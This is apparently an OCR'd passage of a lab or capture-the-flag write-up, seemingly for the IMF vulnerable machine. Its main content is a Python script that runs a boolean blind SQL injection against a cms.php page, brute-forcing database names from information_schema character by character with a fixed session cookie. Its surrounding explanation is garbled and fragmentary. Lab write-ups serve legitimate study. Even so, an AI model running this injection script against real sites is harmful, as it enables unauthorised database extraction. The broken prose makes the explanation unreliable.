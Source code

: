 ```bash 
='i: This specifies that we want to filter by the first word. Since we're using a limit of 0,1, we'll have to tell it that we want to filter in our case it would be 'i' since we're trying to search for the information_schema.schemata table.

```

being said that we will proceed to filter 

the lenght of each DBS, Tables, Columns

to make a python script for the  DBS would be 

```'+and+(select+substring(schema_name,{position_character},1)+from+information_schema.schemata+limit+{dbs},1)='{character}"```

```python 
from pwn import *
import requests, pdb, signal, time, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)


# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

#Variables Globales
main_url = "http://192.168.100.52/imfadministrator/cms.php?pagename=home"
characters = string.ascii_lowercase + '-_'


def makeRequest():

    cookies = {'PHPSESSID': 'rftk9b1ducfunqjmrks8bcfb04'}

    database = ""
    p1 =log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Databases")


    for dbs in range(0, 6):
        for position_character in range(1, 30): 
            for character in characters:
                sqli = main_url + f"'+and+(select+substring(schema_name,{position_character},1)+from+information_schema.schemata+limit+{dbs},1)='{character}"

                p1.status(sqli)

                r = requests.get(sqli, cookies=cookies)

                if "Welcome to the IMF Administration." in r.text:
                    database += character
                    p2.status(database)
                    break

            if database[-1:] == ",":
                database += " "

        if database[-1:] != "," and len(database) > 0:
            database += ","

```